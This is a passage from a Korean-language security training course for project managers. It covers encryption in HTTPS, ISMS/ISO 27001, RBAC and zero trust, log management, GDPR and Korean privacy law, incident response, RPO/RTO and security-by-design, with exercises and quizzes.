**HTTPS에서의 활용 (하이브리드 방식):**

1. **초기 핸드셰이크 (비대칭키):**
   - 서버가 인증서(공개키 포함) 전송
   - 클라이언트가 세션키(대칭키) 생성
   - 서버 공개키로 세션키 암호화하여 전송
   - 서버가 개인키로 세션키 복호화
   - 목적: 세션키를 안전하게 교환

2. **데이터 전송 (대칭키):**
   - 이후 모든 데이터는 세션키로 암호화
   - 목적: 빠른 속도로 대용량 데이터 처리

**장점:**
- 비대칭키로 키 배포 문제 해결
- 대칭키로 성능 확보
- 두 가지의 장점을 모두 활용

**PM이 알아야 할 점:**
- HTTPS 필수 (SEO 순위, 사용자 신뢰)
- 인증서 비용: Let's Encrypt (무료) vs 유료 EV 인증서
- 성능 영향: 미미함 (하드웨어 가속)
- 갱신 주기: 90일 (자동화 필요)

</details>

---

## 4교시: 보안 관리 체계 (이론 + 예시 + 실습 + 퀴즈)

### 이론 (50분)

#### 1. ISMS (정보보호관리체계)

**정의:** 정보자산을 안전하게 관리하기 위한 체계적인 관리 프로세스

**ISMS 인증 (한국):**
-주관: KISA (한국인터넷진흥원)
- 의무 대상: 매출 100억 이상 정보통신서비스 제공자
- 주기: 3년마다 갱신

**ISMS-P (개인정보보호 포함):**
- ISMS + 개인정보보호 관리체계
- 104개 인증 기준

#### 2. ISO 27001 (국제 표준)

**PDCA 사이클:**
```
Plan (계획):
- 보안 정책 수립
- 리스크 평가
- 보안 목표 설정

Do (실행):
- 보안 통제 구현
- 직원 교육
- 시스템 구축

Check (점검):
- 내부 감사
- 모니터링
- 성과 측정

Act (조치):
- 시정 조치
- 지속적 개선
```

#### 3. 보안 정책 계층

```
┌─────────────────────────┐
│ 정책 (Policy)            │ ← 최상위 원칙
│ "모든 데이터는 암호화"   │
└─────────────────────────┘
           ↓
┌─────────────────────────┐
│ 표준 (Standard)          │ ← 구체적 기준
│ "AES-256 사용"           │
└─────────────────────────┘
           ↓
┌─────────────────────────┐
│ 지침 (Guideline)         │ ← 권장 사항
│ "키 길이는 256bit 이상"  │
└─────────────────────────┘
           ↓
┌─────────────────────────┐
│ 절차 (Procedure)         │ ← 단계별 방법
│ "1. 키 생성 2. 암호화..."│
└─────────────────────────┘
```

**비밀번호 정책 예:**
```
정책: 강력한 비밀번호 사용 의무화
표준: 최소 12자, 대소문자+숫자+특수문자
지침: 사전 단어, 개인정보 포함 금지
절차: 1. 비밀번호 생성 2. 복잡도 검증 3. 90일마다 변경
```

####  4. 접근 통제 모델

**A. DAC (Discretionary Access Control)**
- 소유자가 권한 결정
- 예: Windows 파일 공유 (소유자가 다른 사용자에게 권한 부여)
- 유연하지만 보안 취약 (권한 전파)

**B. MAC (Mandatory Access Control)**
- 시스템이 강제로 권한 부여
- 보안 등급 기반 (최고 기밀, 비밀, 대외비)
- 예: 군사 시스템
- 높은 보안, 낮은 유연성

**C. RBAC (Role-Based Access Control)**
- 역할에 따라 권한 부여
- 가장 널리 사용

**RBAC 예:**
| 역할 | 프로젝트 조회 | 작성 | 수정 | 삭제 | 예산 승인 |
|------|--------------|------|------|------|----------|
| PM | ✓ | ✓ | ✓ | ✓ | ✓ |
| 팀장 | ✓ | ✓ | ✓ | ✓ | ✗ |
| 팀원 | ✓ | ✓ | ✓ (본인) | ✗ | ✗ |
| 이해관계자 | ✓ | ✗ | ✗ | ✗ | ✗ |

**설계 원칙:**
- 최소 권한 (Least Privilege): 업무에 필요한 최소 권한만
- 직무 분리 (Separation of Duties): 한 사람이 모든 권한 갖지 않음
- 정기 검토: 분기별 권한 재검토, 퇴사자 즉시 삭제

#### 4-A. 제로트러스트(Zero Trust) 아키텍처

> 📌 **최신 보안 패러다임.** 클라우드·원격근무 확산으로 전통적 경계 보안이 한계에 달하면서 등장한 현대 보안 아키텍처입니다.

**전통 보안 모델 vs 제로트러스트 비교:**

```
[전통 경계 보안 (Castle-and-Moat)]

외부         방화벽         내부 네트워크
  ──────────[🔒성벽]────────────────
  악의적 접속  신뢰 바깥        한번 들어오면 신뢰 ✓
                             → 내부 위협, 공급망 공격에 무방비

[제로트러스트 (Zero Trust)]

모든 접속: "신뢰하지 않는다, 항상 검증한다"
  사용자 → [신원+기기+컨텍스트 검증] → 필요한 리소스만 접근
              ↑매번 확인↑
```

**핵심 원칙:**

| 원칙 | 설명 | 전통 모델과의 차이 |
|------|------|----------------|
| **절대 신뢰하지 않는다** (Never Trust) | 내부·외부 구분 없이 모든 접속 의심 | 내부망은 안전하다 → 위험 |
| **항상 검증한다** (Always Verify) | 매 접속마다 신원·기기·행동 재확인 | 한번 인증하면 계속 신뢰 |
| **최소 권한 부여** (Least Privilege) | 지금 이 업무에 필요한 것만 | 광범위한 내부 접근 허용 |
| **침해 가정** (Assume Breach) | 이미 뚫렸다 가정하고 피해 최소화 | 침해 방지에 집중 |

**제로트러스트 구성요소:**

```
사용자/기기
    │
    ▼
[IAM] 신원 확인
  - MFA(다중요소인증) 필수
  - 기기 상태 확인 (패치 최신?, 위협 존재?)
  - 위치/시간 컨텍스트
    │
    ▼
[정책 엔진] 접근 결정
  - 이 사용자가 지금 이 리소스에 접근할 수 있나?
  - 실시간 리스크 점수 계산
    │
    ▼
[미세 분할] 네트워크 세그멘테이션
  - 리소스별 격리 (결제 시스템 ↔ HR 시스템 격리)
  - 내부 이동 최소화
    │
    ▼
[로그/모니터링] 지속 관찰
  - 모든 접속 로그
  - 이상 행동 감지 (UEBA)
```

**PM이 알아야 하는 제로트러스트 적용 상황:**

| 상황 | 전통 방식의 문제 | 제로트러스트 해결 |
|------|--------------|--------------|
| 재택근무 확산 | VPN으로 전체 내부망 접속 → 위협 | ZTNA(제로트러스트 네트워크 접근)로 필요 앱만 |
| 클라우드 멀티채널 | 물리적 경계 없음 | 아이덴티티 기반 접근 통제 |
| 공급망 공격 | 협력사 계정 탈취 → 내부 침투 | 협력사도 최소 권한, 감시 |
| 내부자 위협 | 내부 사용자는 신뢰 → 데이터 유출 | 내부도 이상 행동 감지 |

**핵심 기술:**
- **MFA (Multi-Factor Authentication):** 비밀번호 + OTP + 생체정보
- **ZTNA (Zero Trust Network Access):** VPN 대체, 앱별 접근
- **UEBA (User and Entity Behavior Analytics):** 이상 행동 분석
- **마이크로 세그멘테이션:** 네트워크를 소규모 구역으로 분리

**국내/국제 동향:**
- 미국 NIST SP 800-207: 제로트러스트 아키텍처 표준
- 국내: 금융보안원, 국정원 클라우드 보안 가이드에 제로트러스트 반영 확산

> 💡 **PM 액션:** IT 인프라 구축 프로젝트 착수 시 "제로트러스트 아키텍처 채택 여부"를 아키텍처 설계 단계에서 결정하고, 채택 시 추가 비용(IAM 솔루션, ZTNA 게이트웨이)과 일정을 계획에 반영하세요.

#### 5. 로그 관리

**로깅 대상:**
- 로그인/로그아웃
- 권한 변경
- 데이터 조회/수정/삭제
- 시스템 설정 변경
- 보안 이벤트 (실패한 로그인 시도)

**로그 형식:**
```
타임스탬프 | 사용자 | IP주소 | 액션 | 대상 | 결과
─────────────────────────────────────────────────
2026-02-20 14:32:05 | hong | 192.168.1.100 | SELECT | customers | Success
2026-02-20 14:35:12 | kim | 192.168.1.105 | DELETE | orders | Fail (권한 없음)
```

**로그 보관:**
- 최소 1년 (법규 준수)
- 변조 방지 (Write-Once 스토리지)
- 백업 및 암호화

**SIEM (Security Information and Event Management):**
- 로그 중앙 집중 수집
- 실시간 분석 및 알림
- 제품: Splunk, ELK Stack, IBM QRadar

#### 6. 보안 감사

**내부 감사 (분기별):**
- 보안 정책 준수 확인
- 접근 권한 적정성 검토
- 로그 분석
- 취약점 점검

**외부 감사 (연 1회):**
- 제3자 전문가가 독립적 평가
- ISMS 인증 갱신 시 필수

**감사 체크리스트:**
1. 비밀번호 정책 준수율
2. 미사용 계정 정리 여부
3. 보안 패치 적용률
4. 백업 테스트 결과
5. 직원 보안 교육 이수율
6. 사고 대응 훈련 실시 여부

### 예시 (25분)

#### 예시 1: RBAC 설계

**시나리오: 인사 시스템**

**역할 정의:**
1. 인사 팀장
2. 인사 담당자
3. 팀장 (각 부서)
4. 일반 직원

**권한 매트릭스:**
| 기능 | 인사 팀장 | 인사 담당자 | 팀장 | 일반 직원 |
|------|---------|-----------|------|---------|
| 본인 정보 조회 | ✓ | ✓ | ✓ | ✓ |
| 본인 정보 수정 | ✓ | ✓ | ✓ (일부) | ✓ (일부) |
| 타인 정보 조회 | ✓ (전체) | ✓ (전체) | ✓ (팀원만) | ✗ |
| 급여 정보 조회 | ✓ (전체) | ✓ (전체) | ✗ | ✓ (본인) |
| 인사 평가 입력 | ✓ | ✗ | ✓ (팀원) | ✗ |
| 승진 결정 | ✓ | ✗ | ✗ | ✗ |

**직무 분리:**
- 인사 평가 입력 ≠ 승진 결정 (같은 사람 불가)
- 급여 계산 ≠ 급여 지급 승인

#### 예시 2: 보안 정책 문서

**정보보호 정책 예:**

**1. 목적**
본 정책은 회사의 정보 자산을 보호하고 법규를 준수하기 위함

**2. 적용 범위**
전 직원, 협력사, 외주 인력

**3. 비밀번호 관리**
- 최소 12자 이상
- 대소문자, 숫자, 특수문자 조합
- 90일마다 변경
- 이전 5개 비밀번호 재사용 금지
- 3회 연속 오류 시 계정 잠금 (15분)

**4. 접근 통제**
- 최소 권한 원칙
- 업무 변경 시 권한 재검토
- 퇴사 즉시 계정 삭제

**5. 데이터 분류**
| 등급 | 정의 | 예시 | 보호 대책 |
|------|------|------|-----------|
| 1급 (기밀) | 유출 시 심각한 피해 | 고객 개인정보, 재무 정보 | 암호화 필수, 접근 로그 |
| 2급 (대외비) | 유출 시 피해 발생 | 영업 전략, 계약서 | 접근 통제 |
| 3급 (공개) | 유출 가능 | 공개 문서, 보도자료 | 일반 관리 |

**6. 위반 시 조치**
- 1차: 경고
- 2차: 징계
- 3차 또는 중대: 해고 및 법적 조치

### 실습 (20분)

#### 실습 1: 보안 정책 계층 작성

**과제:** "데이터 암호화" 주제로 정책-표준-지침-절차를 작성하세요.

<details>
<summary>해설</summary>

**정책 (Policy):**
"모든 민감 데이터는 저장 및 전송 시 암호화되어야 한다"

**표준 (Standard):**
- 저장 시: AES-256 사용
- 전송 시: TLS 1.3 이상
- 키 길이: 256bit 이상
- 알고리즘: NIST 승인 알고리즘

**지침 (Guideline):**
- 1급 기밀: 반드시 암호화
- 2급 대외비: 권장
- 3급 공개: 선택
- 키 관리: HSM (Hardware Security Module) 사용 권장
- 백업도 암호화 적용

**절차 (Procedure):**
1. 데이터 분류 등급 확인
2. 적절한 암호화 라이브러리 선택
3. 키 생성 (암호학적으로 안전한 난수 생성기 사용)
4. 키를 HSM 또는 Key Vault에 안전하게 저장
5. 데이터 암호화 적용
6. 암호화 적용 여부 테스트
7. 정기 점검 (연 2회)

</details>

#### 실습 2: 접근 통제 설계

**과제:** 프로젝트 관리 시스템의 RBAC를 설계하세요 (역할 3개, 기능 5개).

<details>
<summary>해설</summary>

**역할:**
1. PM (Project Manager)
2. 팀원 (Team Member)
3. 이해관계자 (Stakeholder)

**권한 매트릭스:**
| 기능 | PM | 팀원 | 이해관계자 |
|------|----|----|-----------|
| 프로젝트 조회 | ✓ 전체 | ✓ 할당된 것만 | ✓ 관련된 것만 |
| 일정 작성 | ✓ | ✓ (본인 작업) | ✗ |
| 일정 수정 | ✓ | ✓ (본인 작업) | ✗ |
| 예산 조회 | ✓ | ✓ (요약만) | ✓ (승인된 정보) |
| 예산 수정 | ✓ | ✗ | ✗ |
| 산출물 업로드 | ✓ | ✓ | ✗ |
| 산출물 승인 | ✓ | ✗ | ✓ (검토만) |
| 프로젝트 종료 | ✓ | ✗ | ✗ |

**추가 규칙:**
- PM 부재 시: 대리 PM 지정 가능 (임시 권한)
- 팀원 퇴사 시: 작성한 데이터는 유지, 계정은 즉시 삭제
- 이해관계자는 읽기 전용 (데이터 수정 불가)
- 민감 정보 (인사 평가)는 PM만 조회 가능

</details>

### 퀴즈 (15분)

**Q1. ISMS의 목적은?**
1. 개발 방법론 정의
2. 정보 자산 체계적 관리
3. 프로젝트 일정 관리
4. 품질 관리

<details>
<summary>정답</summary>
정답: 2번 (정보 자산을 체계적으로 관리하기 위한 프로세스)
</details>

**Q2. 최소 권한 원칙이란?**
1. 최소한의 인원만 채용
2. 업무에 필요한 최소 권한만 부여
3. 비밀번호 최소 길이 설정
4. 최소 비용으로 보안 구현

<details>
<summary>정답</summary>
정답: 2번 (Principle of Least Privilege)
</details>

**Q3. RBAC를 설계하고, 최소 권한 원칙과 직무 분리를 어떻게 적용하는지 설명하세요.**

<details>
<summary>모범 답안</summary>

**RBAC (Role-Based Access Control):**
역할에 따라 권한을 부여하는 접근 통제 모델

**설계 단계:**
1. **역할 정의**: PM, 개발자, QA, 운영자
2. **권한 정의**: CRUD (Create, Read, Update, Delete)
3. **매핑**: 각 역할에 필요한 권한만 부여

**예시: 배포 시스템**
| 역할 | 코드 조회 | 코드 수정 | 빌드 | 테스트 배포 | 운영 배포 |
|------|---------|---------|------|-----------|---------|
| 개발자 | ✓ | ✓ | ✓ | ✓ | ✗ |
| QA | ✓ | ✗ | ✗ | ✓ | ✗ |
| 운영자 | ✓ | ✗ | ✗ | ✗ | ✓ |
| PM | ✓ | ✗ | ✗ | ✓ | ✓ (승인) |

**최소 권한 원칙 (Least Privilege) 적용:**

1. **필요 최소한만 부여:**
   - 개발자: 코드 수정 가능, 하지만 운영 배포 불가
   - QA: 테스트만 가능, 코드 수정 불가
   - 이유: 잘못된 배포로 인한 장애 방지

2. **기간 제한:**
   - 임시 권한: 특정 작업 완료 시까지만 (예: DB 마이그레이션)
   - 자동 만료: 90일 후 권한 재검토

3. **범위 제한:**
   - 개발자는 본인이 담당한 모듈만 수정 가능
   - 전체 시스템 권한은 시니어만

**직무 분리 (Separation of Duties) 적용:**

1. **개발 ≠ 배포:**
   - 개발자가 코드 작성
   - 운영자가 배포 실행
   - 이유: 악의적 코드 삽입 방지, 검증 단계 확보

2. **승인 ≠ 실행:**
   - PM이 배포 승인
   - 운영자가 실행
   - 이유: 이중 확인, 책임 분산

3. **생성 ≠ 검증:**
   - 개발자가 기능 구현
   - QA가 테스트
   - 이유: 독립적 품질 검증

**실제 적용 예:**
```
운영 DB에 새 테이블 추가 시나리오:

1. 개발자: SQL 스크립트 작성, 코드 리뷰 요청
2. 시니어: 코드 리뷰 승인
3. QA: 테스트 DB에서 실행 확인
4. PM: 운영 배포 승인
5. DBA: 운영 DB에 실행
6. 모니터링팀: 적용 후 모니터링

→ 한 사람이 모든 단계를 수행할 수 없음
→ 각 단계에서 검증
→ 문제 발생 시 책임 추적 가능
```

**PM이 고려할 점:**
- 과도한 분리는 효율성 저하 (승인 단계가 너무 많음)
- 적정 수준 유지 (중요도에 따라 차등)
- 긴급 상황 대응 절차 마련
- 정기적 권한 검토 (분기별)

</details>

---

## 5교시: 개인정보보호 및 컴플라이언스 (이론 + 예시 + 실습 + 퀴즈)

### 이론 (50분)

#### 1. 개인정보보호법 (한국)

**개인정보 정의:**
살아 있는 개인에 관한 정보로 성명, 주민번호, 영상 등으로 개인을 알아볼 수 있는 정보

**민감정보:**
사상·신념, 노동조합 가입, 정치적 견해, 건강, 성생활, 유전정보, 범죄경력
→ 수집 시 별도 동의 필요

**핵심 원칙:**
1. 수집·이용 목적 명시
2. 최소 수집
3. 정보 주체 동의
4. 안전성 확보 조치 (암호화, 접근 통제)
5. 유출 시 72시간 내 통지

**위반 시 처벌:**
- 과징금: 최대 매출의 3% 또는 5억원
- 형사처벌: 5년 이하 징역 또는 5천만원 이하 벌금

#### 2. GDPR (EU 일반 데이터 보호 규정)

**적용 대상:**
EU 시민의 개인정보를 처리하는 모든 조직 (한국 기업도 EU 고객 있으면 적용)

**핵심 권리:**
1. 정보 열람권: 본인 정보 조회
2. 정정권: 잘못된 정보 수정
3. 삭제권 (잊혀질 권리): 정보 삭제 요청
4. 이동권: 정보를 다른 서비스로 이동
5. 처리 제한권: 특정 처리 중단 요청

**Requirements:**
- Data Protection Officer (DPO) 임명
- Privacy by Design: 설계 단계부터 개인정보 보호
- Data Protection Impact Assessment (DPIA): 고위험 처리 시 영향 평가

**위반 시 과징금:**
- Tier 1: 최대 1천만 유로 또는 전 세계 매출의 2%
- Tier 2: 최대 2천만 유로 또는 전 세계 매출의 4%

**사례:**
```
2019년 Google GDPR 위반
- 벌금: 5,000만 유로
- 사유: 광고 맞춤 설정 시 불충분한 동의

2020년 Marriott 호텔
- 벌금: 1,840만 파운드
- 사유: 고객 3.39억 명 정보 유출, 부적절한 보안
```

#### 3. 개인정보 생명주기 관리

**1단계: 수집**
- 목적 명시
- 동의 획득 (명확하고 이해하기 쉽게)
- 최소 정보만 수집
- 제3자 제공 시 별도 동의

**2단계: 저장**
- 암호화 (AES-256)
- 접근 통제 (RBAC)
- 안전한 저장소 (클라우드는 국내 리전)

**3단계: 이용**
- 목적 범위 내에서만
- 로그 기록
- 화면 마스킹 (주민번호 뒷자리 ***)

**4단계: 제공**
- 제3자 제공 시 동의
- 제공 내역 기록
- 제공받는 자의 보안 수준 확인

**5단계: 파기**
- 보유 기간 경과 시 즉시 파기
- 파기 방법: 복원 불가능하게 (덮어쓰기, 물리적 파괴)
- 파기 기록 보관 (3년)

#### 4. 사고 대응 절차 (6단계)

**1. 준비 (Preparation)**
- 사고 대응 팀 구성 (CSIRT)
- 연락망 구축
- 대응 매뉴얼 작성
- 정기 훈련 (연 2회)

**2. 식별 (Identification)**
- 사고 감지 (SIEM 알림, 사용자 신고)
- 사고 분류 (경미/중대)
- 초기 조사

**3. 억제 (Containment)**
- 단기 억제: 네트워크 차단, 계정 정지
- 장기 억제: 패치 적용, 시스템 격리

**4. 제거 (Eradication)**
- 악성코드 제거
- 취약점 패치
- 침해 경로 차단

**5. 복구 (Recovery)**
- 백업에서 복원
- 시스템 정상화
- 모니터링 강화

**6. 교훈 (Lessons Learned)**
- 사후 분석 회의
- 재발 방지 대책 수립
- 매뉴얼 업데이트

**72시간 규칙:**
개인정보 유출 시 72시간 내 통지 (GDPR, 개인 정보보호법)

#### 5. RPO / RTO

**RPO (Recovery Point Objective):**
- 복구 목표 시점
- "얼마나 오래된 데이터까지 복구할 것인가?"
- 예: RPO 1시간 = 최대 1시간 전 데이터로 복구

**RTO (Recovery Time Objective):**
- 복구 목표 시간
- "얼마나 빨리 복구할 것인가?"
- 예: RTO 4시간 = 장애 후 4시간 내 복구

**결정 요인:**
- 비즈니스 중요도
- 데이터 유실 허용 범위
- 복구 비용

**예시:**
| 시스템 | 중요도 | RPO | RTO | 백업 방법 |
|--------|--------|-----|-----|----------|
| 결제 시스템 | 높음 | 0 (실시간 복제) | 30분 | Hot Standby |
| 웹사이트 | 중간 | 1시간 | 2시간 | 정기 백업 |
| 로그 | 낮음 | 24시간 | 24시간 | 일일 백업 |

#### 6. 백업 전략

**3-2-1 규칙:**
- 3개 복사본
- 2개 다른 매체 (HDD + 클라우드)
- 1개 오프사이트 (다른 위치)

**백업 유형:**
- 전체 백업: 모든 데이터 (주 1회)
- 증분 백업: 변경분만 (일일)
- 차등 백업: 마지막 전체 이후 변경분 (주 1회)

**테스트:**
- 정기적 복구 테스트 (월 1회)
- 실제 복구 가능 여부 확인

### 예시 (25분)

#### 예시 1: GDPR 위반 사례

**British Airways (2020)**
```
사고:
- 고객 50만 명 개인정보 유출
- 신용카드 정보 포함

원인:
- 웹사이트에 악성 스크립트 삽입
- 보안 취약점 방치
- 충분한 모니터링 부족

처벌:
- 최초 제안: 1억 8,300만 파운드
- 최종: 2,000만 파운드
- (코로나로 항공사 재정 악화 고려)

교훈:
- 정기 취약점 점검
- 실시간 모니터링
- 신속한 패치
```

#### 예시 2: 사고 대응 시나리오

**상황: 고객 DB 랜섬웨어 감염**

**00:00 - 식별:**
- 월요일 새벽 2시, SIEM 알림: "비정상적 파일 암호화 활동"
- 관리자 확인: 랜섬웨어 감염, 랜섬 노트 발견
- 즉시 사고 대응 팀장에게 연락

**00:15 - 억제:**
- 감염 서버 네트워크 차단 (추가 확산 방지)
- 모든 사용자 비밀번호 강제 초기화
- 백업 서버 오프라인 (백업 암호화 방지)

**00:30 - 분석:**
- 침입 경로 조사: 피싱 이메일 → 관리자 PC 감염
- 영향 범위: 고객 DB 3개 테이블 암호화
- 백업 확인: 전날 밤 백업 있음 (무사함)

**01:00 - 제거:**
- 악성코드 제거
- 관리자 PC 포맷 후 재설치
- 모든 서버 보안 패치

**02:00 - 복구:**
- 백업에서 DB 복원
- 데이터 무결성 검증
- 서비스 재개

**09:00 - 통지:**
- 경영진 보고
- 영향받은 고객에게 이메일 통지
- 개인정보보호위원회에 신고 (72시간 내)

**1주 후 - 교훈:**
- 피싱 훈련 강화
- 이메일 첨부파일 실행 차단
- 백업 빈도 증가 (하루 2회)
- 모니터링 알림 임계값 조정

### 실습 (20분)

#### 실습 1: 개인정보 처리 흐름도 작성

**과제:** 온라인 쇼핑몰의 개인정보 수집부터 파기까지 흐름도를 작성하세요.

<details>
<summary>해설</summary>

```
1. 수집 단계:
   회원가입 → 동의 획득 (필수/선택 구분)
   수집 항목:
   - 필수: 이름, 이메일, 전화번호, 주소
   - 선택: 생년월일, 마케팅 동의
   
2. 저장 단계:
   DB 저장 → AES-256 암호화 (이름, 전화, 주소)
   접근 통제 → CS팀만 조회 가능, 개발자는 마스킹된 데이터

3. 이용 단계:
   주문 처리: 배송을 위해 이름·주소 이용
   마케팅: 동의한 고객에게만 이메일 발송
   로그 기록: 누가, 언제, 어떤 정보 조회했는지

4. 제공 단계:
   배송사에 제공: 이름, 전화, 주소 (배송 목적)
   → 제3자 제공 동의 획득
   → 제공 내역 기록 (3년 보관)

5. 파기 단계:
   회원 탈퇴 즉시 파기 (단, 법령에 따라 일부 보유)
   - 전자상거래법: 계약·결제 기록 5년
   - 통신비밀보호법: 로그인 기록 3개월
   
   파기 방법:
   - DB: 안전 삭제 (복원 불가)
   - 백업: 다음 백업 사이클에서 자동 삭제
   - 파기 기록부 작성
```

**PM 체크리스트:**
- [ ] 개인정보 처리 방침 작성 및 공개
- [ ] 암호화 적용
- [ ] 접근 로그 기록
- [ ] 제3자 제공 동의
- [ ] 보유 기간 설정 및 자동 파기
- [ ] 정기 감사

</details>

#### 실습 2: RPO/RTO 설정

**과제:** 다음 시스템의 적정 RPO/RTO를 설정하세요.

<details>
<summary>해설</summary>

| 시스템 | 특성 | RPO | RTO | 백업 방법 | 근거 |
|--------|------|-----|-----|-----------|------|
| **은행 거래** | - 실시간 금융 거래<br>- 1분 중단도 큰 손실 | **0** (실시간 복제) | **5분** | - Active-Active<br>- 실시간 복제<br>- 자동 페일오버 | 금융 거래는 데이터 유실 불가<br>빠른 복구 필수 |
| **전자상거래** | - 주문·결제<br>- 중단 시 매출 손실 | **15분** | **1시간** | - 15분마다 증분 백업<br>- Hot Standby | 최근 주문까지 복구<br>피크 타임 빠른 복구 |
| **사내 게시판** | - 중요도 낮음<br>- 일시 중단 가능 | **24시간** | **4시간** | - 일일 전체 백업<br>- Warm Standby | 하루 치 손실 허용<br>반나절 내 복구 |
| **로그 데이터** | - 분석용<br>- 즉시 필요 없음 | **1주일** | **24시간** | - 주 1회 전체 백업<br>- 클라우드 저장 | 최근 로그만 중요<br>복구 급하지 않음 |

**비용 고려:**
- RPO/RTO가 짧을수록 비용 증가
- 비즈니스 영향과 비용의 균형
- 예: 실시간 복제 > 정기 백업 (10배 이상 비용 차이)

**PM의 의사결정:**
1. 비즈니스 영향 분석 (BIA)
2. 각 시스템의 중요도 평가
3. 허용 가능한 손실/중단 시간 결정
4. 예산 범위 내 최적 방안 선택

</details>

### 퀴즈 (15분)

**Q1. RPO와 RTO의 차이는?**
1. RPO는 복구 시간, RTO는 복구 지점
2. RPO는 복구 지점, RTO는 복구 시간
3. 둘 다 복구 시간
4. 둘 다 복구 지점

<details>
<summary>정답</summary>
정답: 2번
- RPO (Recovery Point Objective): 복구 목표 시점 (얼마나 오래된 데이터까지)
- RTO (Recovery Time Objective): 복구 목표 시간 (얼마나 빨리)
</details>

**Q2. GDPR의 "잊혀질 권리"란?**
1. 개인정보 조회 권리
2. 개인정보 삭제 요청 권리
3. 개인정보 수정 권리
4. 개인정보 이동 권리

<details>
<summary>정답</summary>
정답: 2번 (정보 주체가 자신의 개인정보 삭제를 요청할 수 있는 권리)
</details>

**Q3. 개인정보 유출 사고 대응 절차 6단계를 순서대로 나열하고, 72시간 규칙을 설명하세요.**

<details>
<summary>모범 답안</summary>

**사고 대응 6단계:**

**1. 준비 (Preparation):**
- 사고 대응 팀(CSIRT) 구성
- 연락망 구축 (24/7 대응 가능)
- 대응 매뉴얼 작성
- 정기 모의 훈련 (연 2회 이상)
- 도구 준비 (포렌식 툴, 백업 시스템)

**2. 식별 (Identification):**
- 사고 감지: SIEM 알림, 사용자 신고, 이상 징후
- 사고 분류: 경미 / 중대 / 심각
- 영향 범위 파악: 어떤 데이터가, 얼마나 유출되었는가
- 초기 조사: 침입 경로, 공격자 식별

**3. 억제 (Containment):**
- 단기 억제:
  - 감염 시스템 네트워크 차단
  - 공격자 접근 경로 차단
  - 계정 정지
- 장기 억제:
  - 취약점 패치
  - 시스템 격리
  - 추가 확산 방지

**4. 제거 (Eradication):**
- 악성코드 완전 제거
- 백도어 제거
- 취약점 패치
- 침해 흔적 제거

**5. 복구 (Recovery):**
- 백업에서 데이터 복원
- 시스템 재구축 (필요 시)
- 정상 운영 재개
- 모니터링 강화 (재발 방지)
- 단계적 복구 (테스트 → 운영)

**6. 교훈 (Lessons Learned):**
- 사후 분석 회의
- 타임라인 문서화
- 근본 원인 분석
- 재발 방지 대책 수립
- 매뉴얼 및 정책 업데이트
- 보안 투자 우선순위 재조정

---

**72시간 규칙:**

**정의:**
개인정보 유출 사고 발생 시 **72시간 이내**에 정보 주체 및 감독 기관에 통지해야 하는 의무

**근거:**
- GDPR Article 33, 34
- 한국 개인정보보호법 제34조

**통지 대상:**
1. 감독 기관 (개인정보보호위원회, Data Protection Authority)
2. 정보 주체 (영향받은 고객)

**통지 내용:**
1. 사고 발생 일시 및 경위
2. 유출된 개인정보 항목 및 규모
3. 예상되는 피해
4. 대응 조치 및 피해 구제 방법
5. 담당 부서 및 연락처

**예외:**
- 암호화 등으로 정보가 보호되어 피해 가능성이 없는 경우
- 유출 즉시 회수하여 정보 주체에게 피해가 없는 경우

**위반 시 처벌:**
- GDPR: 최대 1천만 유로 또는 매출의 2%
- 한국: 5년 이하 징역 또는 5천만원 이하 벌금

**PM의 역할:**
- 사고 대응 계획 수립
- 72시간 내 통지를 위한 프로세스 정립
- 법무팀, PR팀과 협력
- 고객 커뮤니케이션 전략 수립
- 정기 모의 훈련으로 대응 능력 확보

**실제 타임라인 예:**
```
Day 1, 00:00: 사고 감지
Day 1, 02:00: 초기 조사 완료, 영향 범위 파악
Day 1, 09:00: 경영진 보고, 대응팀 가동
Day 2, 12:00: 상세 조사 완료
Day 2, 18:00: 신고 내용 작성, 법무 검토
Day 3, 09:00: 개인정보보호위원회 신고
Day 3, 10:00: 고객 이메일 통지
→ 총 57시간 (72시간 이내 완료)
```

</details>

---
- RPO/RTO는 복구 목표를 나타낸다.

### 예시
- 72시간 내 침해 통보 의무(GDPR).

### 실습
1. 개인정보 처리 흐름을 작성한다.
2. 사고 대응 시나리오를 작성한다.

### 퀴즈
1. RPO와 RTO의 차이를 설명하시오.
2. 개인정보보호법의 핵심 원칙 2가지를 쓰시오.

## 6교시: PM 관점 보안 적용 (이론 + 예시 + 실습 + 퀴즈)

### 이론 (50분)

#### 1. Security by Design

**정의:** 설계 단계부터 보안을 고려하는 접근 방식

**원칙:**
- 사전 예방 > 사후 대응
- 보안은 추가 기능이 아닌 필수 요구사항
- 전 단계에서 보안 고려

**PM의 역할:**
- 요구사항 단계에 보안 요구사항 포함
- 보안 예산 및 일정 확보
- 보안 전문가 참여

#### 2. SDLC 단계별 보안 활동

**요구사항:** 보안 요구사항 정의, 위협 모델링  
**설계:** 보안 아키텍처, 데이터 흐름도  
**개발:** 시큐어 코딩, SAST  
**테스트:** DAST, 모의해킹  
**배포:** 보안 설정, HTTPS  
**운영:** 패치 관리, 모니터링

#### 3. 보안 요구사항 작성

**형식:** "[주체]는 [조건]에서 [행위]를 [보안 통제]로 수행해야 한다"

**예:**
- 사용자는 로그인 시 ID/PW와 OTP로 2-Factor 인증을 수행해야 한다
- 시스템은 개인정보를 AES-256으로 암호화해야 한다

#### 4. 시큐어 코딩

**핵심:**
- Input Validation (입력 검증)
- Parameterized Query (SQL Injection 방지)
- Output Encoding (XSS 방지)
- CSRF 토큰

#### 5. 보안 테스트

**SAST vs DAST:**
- SAST: 소스 코드 정적 분석 (개발 중)
- DAST: 실행 중 앱 동적 분석 (배포 후)

**모의해킹:** Black/White/Gray Box

#### 6. 보안 리스크 관리

리스크 = 가능성 × 영향도

**대응:** 회피, 완화, 전가, 수용

#### 7. 보안 비용

프로젝트 예산의 5-10% (금융/의료 10-15%)

### 예시 (25분)

#### 예시 1: 보안 요구사항

**온라인 뱅킹:**
- SEC-001: 2-Factor 인증 (ID/PW + OTP)
- SEC-002: 1,000만원 이상 송금 시 ARS 추가 인증
- SEC-003: 30분 무활동 시 자동 로그아웃
- SEC-004: 모든 거래 10년간 로그 보관

#### 예시 2: 보안 테스트 계획

**12주 프로젝트:**
- Week 9: SAST (SonarQube)
- Week 10: DAST (OWASP ZAP)
- Week 11: 모의해킹 (Gray Box, 1,500만원)
- Week 12: 취약점 수정, 재테스트

### 실습 (20분)

#### 실습 1: 보안 요구사항 5개 작성

**과제:** 프로젝트 관리 시스템의 보안 요구사항을 작성하세요.

<details>
<summary>해설</summary>

| ID | 요구사항 | 우선순위 |
|----|---------|---------|
| SEC-001 | 회사 이메일과 비밀번호로 로그인 | 필수 |
